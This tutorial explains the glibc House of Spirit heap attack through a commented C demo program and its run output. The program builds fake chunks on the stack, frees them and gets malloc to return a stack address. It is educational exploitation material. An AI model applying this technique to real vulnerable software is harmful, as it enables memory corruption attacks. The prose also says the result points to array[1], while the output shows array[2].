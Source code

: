 # House of Spirit Explanation

Shoutout to `fanpu` for a fix to a mistake for the diagram.

So this is a well documented C source file that explains how a House of Spirit attack works. It was ran on Ubuntu 16.04. Essentially with a House of Spirit attack, we create two fake chunks by writing two integers to a region of memory that will represent the sizes of the fake chunks. Then we get a pointer to point to the first fake chunk, and free it. Then we get malloc to return a pointer to that memory region. So it essentially allows us to get malloc to return a pointer to a region of memory that we can write two integers to.

It might seem a bit redundant since we can already write to this memory region. However if we can get malloc to return a pointer to a memory region, depending on the code we should be able to edit/view/manipulate that region of memory differently.

Here is the source code:
```
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	puts("So we will be covering a House of Spirit Attack.");
	puts("A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).");
	puts("In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.");
	puts("To setup the fake chunks, we will need to write fake size values for the chunks.");
	puts("Also the first fake chunk is where we will want our chunk returned by malloc to be.");
	puts("Let's get started!\n");


	unsigned long array[20];
	printf("So we start off by initializing our array on the stack.\n");
	printf("Array Start: %p\n", array);
	printf("Our goal will be to allocate a chunk at %p\n\n", &array[2]);


	printf("Now we need to write our two size values for the chunks.\n");
	printf("There are three restrictions we have to meet.\n\n");

	printf("0.) Size of the chunks must be within the fast bin range.\n");
	printf("1.) The size values must be placed where they should if they were an actual chunk.\n");
	printf("2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.\n");
	printf("That should be larger than the argument passed to malloc.\n\n");

	printf("Also as a side note, the two sizes don't have to be equal.\n");
	printf("Check the code comments for how the fake heap chunks are structured.\n");
	printf("With that, let's write our two size values.\n\n");

	/*
	this will be the structure of our two fake chunks:
	assuming that you compiled it for x64

	+-------+---------------------+------+
	| 0x00: | Chunk # 0 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x08: | Chunk # 0 size      | 0x60 |
	+-------+---------------------+------+
	| 0x10: | Chunk # 0 content   | 0x00 |
	+-------+---------------------+------+
	| 0x60: | Chunk # 1 prev size | 0x00 |
	+-------+---------------------+------+
	| 0x68: | Chunk # 1 size      | 0x40 |
	+-------+---------------------+------+
	| 0x70: | Chunk # 1 content   | 0x00 |
	+-------+---------------------+------+

	for what we are doing the prev size values don't matter too much
	the important thing is the size values of the heap headers for our fake chunks
	*/

	array[1] = 0x60;
	array[13] = 0x40;

	printf("Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.\n");
	printf("This will be the ptr that we get malloc to return for this attack\n");

	unsigned long *ptr;
	ptr = &(array[2]);

	printf("Address: %p\n\n", ptr);

	printf("Now we will free the pointer to place it into the fast bin.\n");

	free(ptr);

	printf("Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].\n\n");

	unsigned long *target;
	target = malloc(0x50);

	printf("returned pointer: %p\n", target);

}
```

When we run it:
```
$	./house_spirit_exp 
So we will be covering a House of Spirit Attack.
A House of Spirit Attack allows us to get malloc to return a fake chunk to a region we have some control over (such as the bss or stack).
In order for this attack to work and pass all of the malloc checks, we will need to make two fake chunks.
To setup the fake chunks, we will need to write fake size values for the chunks.
Also the first fake chunk is where we will want our chunk returned by malloc to be.
Let's get started!

So we start off by initializing our array on the stack.
Array Start: 0x7ffd2d2cbc10
Our goal will be to allocate a chunk at 0x7ffd2d2cbc20

Now we need to write our two size values for the chunks.
There are three restrictions we have to meet.

0.) Size of the chunks must be within the fastin range.
1.) The size values must be placed where they should if they were an actual chunk.
2.) The size of the first heap chunk (the one that gets freed and reallocated) must be the same as the rounded up heap size of the malloc that we want to allocate our fake chunk.
That should be larger than the argument passed to malloc.

Also as a sidenote, the two sizes don't have to be equal.
Check the code comments for how the fake heap chunks are structured.
With that, let's write our two size values.

Now that we setup our fake chunks set up, we will now get a pointer to our first fake chunk.
This will be the ptr that we get malloc to return for this attack
Address: 0x7ffd2d2cbc20

Now we will free the pointer to place it into the fast bin.
Now we can just allocate a chunk that it's rounded up malloc size will be equal to that of our fake chunk (0x60), and we should get malloc to return a pointer to array[1].

returned pointer: 0x7ffd2d2cbc20
```

